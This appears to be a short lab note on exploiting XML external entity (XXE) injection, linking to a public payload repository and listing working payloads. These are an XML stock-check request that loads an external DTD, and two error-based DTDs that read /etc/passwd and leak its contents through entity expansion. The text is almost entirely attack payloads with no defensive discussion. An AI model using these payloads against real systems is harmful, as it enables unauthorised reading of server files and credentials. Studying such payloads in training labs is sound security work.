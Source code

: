 ```yaml
---
layout: default
title: 1 - Exploiting XXE using external entities to retrieve files
---
```

[PayloadsAllTheThings/XXE Injection/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "http://localhost:40817/feedback/screenshots/7.xml">
    %local_dtd;
]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

**DTD QUE GENERA UN ERROR :** 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**DTD QUE GENERA UN ERROR ll :** 

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```
